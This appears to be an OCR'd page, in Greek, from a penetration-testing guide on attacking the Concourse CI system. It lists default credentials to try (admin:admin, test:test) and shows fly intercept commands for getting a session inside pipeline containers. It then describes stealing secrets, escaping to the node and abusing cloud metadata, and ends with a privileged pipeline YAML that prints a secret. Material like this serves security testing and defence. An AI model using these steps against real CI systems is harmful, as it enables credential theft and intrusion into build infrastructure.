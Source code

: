 ### Επιθέσεις στο Concourse

#### Βίαιη Δοκιμή Διαπιστευτηρίων

* admin:admin
* test:test

#### Απαρίθμηση Μυστικών και παραμέτρων

Στο προηγούμενο τμήμα είδαμε πώς μπορείτε να **πάρετε όλα τα ονόματα μυστικών και μεταβλητών** που χρησιμοποιούνται από το pipeline. Οι **μεταβλητές μπορεί να περιέχουν ευαίσθητες πληροφορίες** και το όνομα των **μυστικών θα είναι χρήσιμο αργότερα για να προσπαθήσετε να τα κλέψετε**.

#### Συνεδρία μέσα σε εκτελούμενο ή πρόσφατα εκτελεσμένο κοντέινερ

Εάν έχετε αρκετά προνόμια (**ρόλος μέλους ή περισσότερο**) θα μπορείτε να **καταλογογραφήσετε τα pipelines και τους ρόλους** και απλά να πάρετε μια **συνεδρία μέσα** στον κοντέινερ `<pipeline>/<job>` χρησιμοποιώντας:

```bash
fly -t tutorial intercept --job pipeline-name/job-name
fly -t tutorial intercept # To be presented a prompt with all the options
```

Με αυτές τις άδειες μπορείς να:

* **Κλέψεις τα μυστικά** μέσα από το **container**
* Προσπαθήσεις να **δραπετεύσεις** στον κόμβο
* Απαριθμήσεις/Εκμεταλλευτείς το **metadata** του cloud (από το pod και από τον κόμβο, αν είναι δυνατόν)

#### Δημιουργία/Τροποποίηση Αγωγού

Αν έχεις αρκετά προνόμια (**ρόλος μέλους ή περισσότερο**), θα μπορείς να **δημιουργήσεις/τροποποιήσεις νέους αγωγούς**. Ελέγξτε αυτό το παράδειγμα:

```yaml
jobs:
- name: simple
plan:
- task: simple-task
privileged: true
config:
# Tells Concourse which type of worker this task should run on
platform: linux
image_resource:
type: registry-image
source:
repository: busybox # images are pulled from docker hub by default
run:
path: sh
args:
- -cx
- |
echo "$SUPER_SECRET"
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```

